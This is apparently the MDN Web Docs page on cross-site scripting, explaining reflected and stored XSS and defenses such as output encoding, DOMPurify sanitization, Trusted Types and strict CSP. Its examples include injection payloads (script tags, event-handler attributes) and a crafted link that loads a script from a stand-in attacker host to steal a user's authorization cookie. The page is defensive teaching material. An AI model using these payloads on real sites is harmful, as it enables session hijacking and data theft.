


A cross-site scripting (XSS) attack allows attackers to inject client-side scripts into web pages viewed by other users as if the scripts were part of the website.

The term "cross-site scripting" is a misnomer: it originally referred to an attack for breaching data across websites, but over time other types of data injection attacks were included as well.

## Overview

Websites tell browsers to download files and code from many different sources and run them on the user's machine. Sometimes these sources can perform sensitive operations like handling the user's personal information. The user can trust a specific group of sources for performing sensitive operations, for example, they may visit a bank or medical website to perform financial transactions. Other sources, like casual gaming websites, do not necessarily have a trust relationship between the user. The foundation of a browser's security model is that trusted and untrusted sites should be separated from each other, so a trusted site cannot use objects or {{glossary("credential", "credentials")}} from an untrusted site, and vice versa. This is called the [same-origin policy (SOP)](/en-US/docs/Web/Security/Defenses/Same-origin_policy).



Cross-site scripting attacks are designed to subvert the same-origin policy by tricking the target site into executing untrusted code within its own context, as if it were same-origin. The code can then do anything that the site's own code can do, including:

- Accessing and/or modifying all the content of the site's loaded pages, and any content in local storage
- Make HTTP requests with the user's credentials, enabling the attacker to impersonate the user or access sensitive data



All XSS attacks depend on a website doing two things:

1. Accepting some input that could have been crafted by an attacker
2. Including this input in a page without _sanitizing_ the content, i.e., without ensuring that it can't be executed as JavaScript

## Types

There is no standard classification of cross-site scripting vulnerabilities, but most experts distinguish between two primary types of XSS flaws: _non-persistent (reflected)_ and _persistent (stored)_. These two types can be divided further into _client-side_ and _server-side_ vulnerabilities.

This section will discuss non-persistent and persistent flaws and their potential impacts for developers and users.

### Non-persistent

Non-persistent (or reflected) XSS attacks occur when data from a web-client (usually HTTP query parameters) is used immediately by server-side scripts to parse and display a page of results for the user, without properly sanitizing the content.

#### Example

Suppose a the website for a streaming service is `streaming-tv.com`. The website requires a username and password and handles sensitive data, including the user's billing information. When the user is logged in, an authorization cookie is created in the browser so that both the client and server know the user's status.

Now, suppose that an attacker discovers a reflected XSS vulnerability on the site. The website includes a search feature, and if a query with no matching titles is submitted, the results page will display "No results for: " followed by the query.

```html
<h1 id="heading">No results for:</h1>
```

The page expects to find the given query as a [URL parameter](/en-US/docs/Learn_web_development/Howto/Web_mechanics/What_is_a_URL#parameters). It extracts the parameter value, and uses the value to display the query as shown:

```js
const params = new URLSearchParams(window.location.search);
const query = params.get("q");
const heading = document.querySelector("#heading");

heading.innerHTML = `No results for: ${query}`;
```

Because of this, whenever a search query is entered, the streaming website's URL changes to include the search term as a parameter. For example, searching "no results" changes the URL to `streaming-tv.com/search?q=no%20results`.

The attacker discovers that submitting an abnormal search query like `<script>alert("xss");</script>` causes the query to be parsed as HTML and/or JavaScript. In this case, the attacker's query results in an alert box with "xss" appearing on the results page followed by the page displaying no results for an empty query. The URL therefore becomes `streaming-tv.com/search?q=<script>alert("xss");</script>`, which is exploitable behavior.

To exploit the vulnerability, the attacker sends the user a link like this:

```html
<a href="https://streaming-tv.com/search?q=your%20favorite%20show%3Cscript%20src%3D%22http%3A%2F%2Fbadwebsite.com%2Fauth.js%22%3E%3C%2Fscript%3E">
  Watch NEW episodes of Your Favorite Show!
</a>
```

The user sees this link and clicks it, only to find that the streaming service doesn't have their favorite show. However, right in the middle, the invisible `<script>` tag runs the attacker's `auth.js` script which sends a copy the user's authorization cookie to the harmful website's servers. This could allow the attacker to log in as the victim and access their sensitive information. The attacker could also perform this same stunt on the website's developers and thus gain administrative privileges to the website.

### Persistent

Persistent vulnerabilities are a more powerful type of XSS in which a website's server saves data from an attacker, and such data is permanently displayed on the website without proper sanitization.

#### Example

A news website allows logged-in users to comment on articles. The website uses a rich text editor for comment input which also supports HTML formatting.

An attacker discovers that using any JavaScript attribute inside of a comment allows the written JavaScript to be executed by the browser. For example, a comment like

```html
I feel so bad for him; why couldn't he just live healthier?

```

will result in the comment's text being visible along with an "xss" alert box.

To exploit this vulnerability, the attacker posts the following malicious comment:

```html
I feel so bad for him; why couldn't he just live healthier?

```

Since the `src` attribute of the {{htmlelement("img")}} element generates an error, it causes the browser to create a new script with the attacker's harmful code. Anyone visiting the news article now risks having their credentials and sensitive information stolen by the attacker.

### Client and server XSS

One big difference between the two examples is that the malicious code is injected in different parts of the website's codebase, and this is a reflection of each website's architecture.

A website that uses client-side rendering, such as a {{glossary("SPA", "single-page app")}}, modifies pages in the browser, using web APIs such as {{domxref("document.createElement()")}} to do so, either directly, or indirectly through a framework like React. It's in the course of this process that XSS injection will happen. That's what we see in the first example: the malicious code is injected in the browser, by a script running in the page assigning the URL parameter value to the {{domxref("Element.innerHTML")}} property, which interprets its value as HTML code.

A website that uses server-side rendering builds pages on the server, using a framework like Django or Express, most commonly by inserting values into page templates. XSS injection, if it happens, will happen in the server during the templating process. That's what we see in the second example: the code is injected in the server, by the Express code inserting the URL parameter value into the document it's returning. The XSS attack code then runs when the browser evaluates the page.

In both cases, the general approach to defense is the same, and we'll go into this in detail in the next section. However, the specific tools and APIs you'll use will be different.

## Defenses against XSS

If you need to include external input in your site's pages, there are two main defenses against XSS:

1. Use _output encoding_ and _sanitization_ to prevent input from becoming executable. If you're rendering content in the browser, you can use the [Trusted Types API](/en-US/docs/Web/API/Trusted_Types_API) to ensure that input is being passed through a sanitization function before being included in the page.
2. Use a [Content Security Policy](/en-US/docs/Web/HTTP/Guides/CSP) (CSP) to tell the browser which JavaScript or CSS resources it should be allowed to execute. This is a backup defense: if the first defense fails and executable input makes it into a page, then a properly configured CSP should prevent the browser from executing it.

### Output encoding

_Output encoding_ is the process by which characters in the input string that potentially make it dangerous are escaped, so they are treated as text instead of being treated as part of a language like HTML.

This is the appropriate choice when you want to treat input as text, for example, because your website uses templates that interpolate input into content, as in this [Django template](https://docs.djangoproject.com/en/stable/ref/templates/language/) excerpt:

```django
<p>You searched for \{{ search_term }}.</p>
```

Most modern templating engines automatically perform output encoding. For example, Django's templating engine performs the following conversions:

- `<` is converted to `&lt;`

- `>` is converted to `&gt;`

- `'` is converted to `&#x27;`

- `"` is converted to `&quot;`

- `&` is converted to `&amp;`

This means that if you pass `` into the Django template above, it will be converted to `&lt;img src=x onerror=alert(&#x27;XSS!&#x27;)&gt;`, which is displayed as the following text:

> You searched for &lt;img src=x onerror=alert('XSS!')&gt;.

Similarly, if you're doing client-side rendering with React, values embedded in JSX are automatically encoded. For example, consider a JSX component like this:

```jsx
import React from "react";

export function App(props) {
  return <div>Hello, {props.name}!</div>;
}
```

If we pass `` into `props.name`, it will be rendered as:

> Hello, &lt;img src=x onerror=alert('XSS!')&gt;!

One of the most important parts of preventing XSS attacks is to use a well-regarded templating engine which performs robust output encoding, and read its documentation to understand any caveats about the protection it offers.

#### Document contexts

Even if you're using a templating engine which automatically encodes HTML, you need to be aware of where in the document you are including untrusted content. For example, suppose you have a Django template like this:

```django
<div>\{{ my_input }}</div>
```

In this context, the input is inside `<div>` tags, so the browser evaluates it as HTML. So you need to protect against the case where `my_input` is HTML that defines executable code, such as ``. The output encoding built into Django prevents this attack, by encoding characters like `<` and `>` as the HTML entities `&lt;` and `&gt;`.

However, suppose the template is like this:

```django
<div \{{ my_input }}></div>
```

In this context the browser will treat the `my_input` variable as an HTML attribute. Because Django encodes quotes (`"` → `&quot;`, `'` → `&#x27;`), the payload `onmouseover="alert('XSS')"` will not execute.
However, an unquoted payload like `onmouseover=alert(1)` (or using backticks, ``onmouseover=alert(`XSS`)``) will still execute, because attribute values need not be quoted and backticks are not escaped by default.

The browser uses different rules to process different parts of a web page — HTML elements and their content, HTML attributes, inline styles, inline scripts. The type of encoding that needs to be done is different depending on the context in which the input is being interpolated.

What's safe in one context may be unsafe in another, and it's necessary to understand the context in which you are including untrusted content, and to implement any special handling that this demands.

- **HTML contexts**: input inserted between the tags of most HTML elements (except for {{htmlelement("style")}} or {{htmlelement("script")}}) is interpreted as HTML. The encoding applied by template engines is mostly concerned with this context.
- **HTML attribute contexts**: inserting input as HTML attribute values is sometimes safe and sometimes not, depending on the attribute. In particular, event handler attributes like `onblur` are unsafe, as is the [`src`](/en-US/docs/Web/HTML/Reference/Elements/iframe#src) attribute of the {{htmlelement("iframe")}} element.

  It's also important to quote placeholders for inserted attribute values, or an attacker may be able to insert an additional unsafe attribute in the value provided. For example, this template does not quote an inserted value:

  ```django example-bad
  <div class=\{{ my_class }}>...</div>
  ```

  An attacker can exploit this to inject an event handler attribute, by using input like `some_id onmouseover=alert(1)`. To prevent the attack, quote the placeholder:

  ```django example-good
    <div class="\{{ my_class }}">...</div>
  ```

- **JavaScript and CSS contexts**: inserting input inside {{htmlelement("script")}} or {{htmlelement("style")}} tags is almost always unsafe.

### Sanitization

Templating engines typically allow developers to disable output encoding. This is necessary when developers want to insert untrusted content as HTML, not text. For example, in Django, the [`safe`](https://docs.djangoproject.com/en/stable/ref/templates/language/#how-to-turn-it-off) filter disables output encoding, and in React, [`dangerouslySetInnerHTML`](https://react.dev/reference/react-dom/components/common#dangerously-setting-the-inner-html) has the same effect.

In this case it's up to the developer to ensure that the content is safe, by sanitizing it.

_Sanitization_ is the process of removing unsafe features from a string of HTML: for example, {{htmlelement("script")}} tags or inline event handlers. Since sanitization, like output encoding, is difficult to get right, it's advisable to use a reputable third-party library for it. [DOMPurify](https://github.com/cure53/DOMPurify) is recommended by many experts including [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#html-sanitization).

For example, consider a string of HTML like:

```html
<div>
  
  <script>
    alert("hello!");
  </script>
</div>
```

If we pass this to DOMPurify, it will return:

```html
<div>
  
</div>
```

### Trusted types

Having a function that can sanitize a given input string is one thing, but finding all the places in a codebase where input strings need to be sanitized can in itself be a very hard problem.

If you're implementing client-side rendering in the browser, there are a number of Web APIs that are unsafe if called with unsanitized untrusted content.

For example, the following APIs interpret their string arguments as HTML and use it to update the page DOM:

- {{domxref("Element.innerHTML")}} (which is also used internally by React's `dangerouslySetInnerHTML`)
- {{domxref("Element.outerHTML")}}
- {{domxref("Element.insertAdjacentHTML()")}}
- {{domxref("Document.write()")}}

Other APIs directly execute their arguments as JavaScript. For example:

- [`eval()`](/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
- {{domxref("Window.setTimeout()")}} and {{domxref("Window.setInterval()")}}

The [Trusted Types API](/en-US/docs/Web/API/Trusted_Types_API) enables a developer to be sure that input is always sanitized before being passed to one of these APIs.

The key to enforcing the use of trusted types is the [`require-trusted-types-for`](/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/require-trusted-types-for) CSP directive. If this directive is set, then passing string arguments to unsafe APIs will throw an exception:

```js example-bad
const userInput = "I might be XSS";
const element = document.querySelector("#container");

element.innerHTML = userInput; // Throws a TypeError
```

Instead, a developer must pass a _trusted type_ to one of these APIs. A trusted type is an object created from a string by a {{domxref("TrustedTypePolicy")}} object, whose implementation is defined by the developer. For example:

```js example-good
// Create a policy that can create TrustedHTML values
// by sanitizing the input strings with DOMPurify library.
const sanitizer = trustedTypes.createPolicy("my-policy", {
  createHTML: (input) => DOMPurify.sanitize(input),
});

const userInput = "I might be XSS";
const element = document.querySelector("#container");

const trustedHTML = sanitizer.createHTML(userInput);
element.innerHTML = trustedHTML;
```

> [!NOTE]
> The Trusted Types API does not provide a sanitization function: it is a framework in which a developer can be sure that a sanitization function that they provide has been called. In the example above, the developer uses DOMPurify as the sanitizer for HTML sinks, within the Trusted Types framework.

The Trusted Types API does not yet have good cross-browser support, but when it does it will be an important defense against DOM-based XSS attacks.

### Deploying a CSP

Output encoding and sanitization are all about preventing malicious scripts from getting into a site's pages. One of the main functions of a content security policy is to prevent malicious scripts from being executed even if they are in a site's pages. That is, it is a backup in case the other defenses fail.

The recommended approach to mitigating XSS with a CSP is a [strict CSP](/en-US/docs/Web/HTTP/Guides/CSP#strict_csp), which uses a [nonce](/en-US/docs/Web/HTTP/Guides/CSP#nonces) or a [hash](/en-US/docs/Web/HTTP/Guides/CSP#hashes) to indicate to the browser which scripts it expects to see in the document. If an attacker manages to insert malicious `<script>` elements, then they won't have the correct {{Glossary("Nonce", "nonce")}} or hash, and the browser will not execute them. Additionally, various common XSS vectors are disallowed completely: inline event handlers, `javascript:` URLs, and APIs like `eval()` that execute their arguments as JavaScript.

## Defense summary checklist

- When interpolating input into a page, either in the browser or in the server, use a templating engine that performs output encoding.
- Be aware of the context in which you are interpolating input, and ensure that the appropriate output encoding will be performed in that context.
- If you need to include input as HTML, sanitize it using a reputable library. If you're doing this in the browser, use the trusted types framework to ensure that input is being processed by your sanitization function.
- Implement a strict CSP.

## See also

- [Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) at [owasp.org](https://owasp.org/)
